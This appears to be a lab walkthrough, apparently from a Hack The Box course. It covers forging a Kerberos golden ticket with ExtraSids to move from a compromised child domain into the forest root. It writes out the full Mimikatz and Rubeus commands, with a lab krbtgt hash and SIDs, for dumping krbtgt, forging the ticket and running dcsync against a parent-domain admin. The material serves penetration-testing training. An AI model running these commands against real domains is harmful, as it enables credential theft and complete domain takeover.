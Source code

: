To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.


Obtain krbtgt of user account via mimikatz
```powershell-session
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

Obtain sid via powerview
```powershell-session
Get-DomainSID
```

Obtain enterprise admin group sid via powerview
```powershell-session
 Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

`
Create golden ticket with gathered information
- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Via mimikatz
```powershell-session
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
Via rubeus
```powershell-session
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```


Confirm ticket creation
```powershell-session
PS C:\htb> klist
```


Leverage golden ticket for dcsync
```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm

OR (Specify domain)

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```


Now that we have a golden ticket we can run commands across domain trust with a FQDN and path name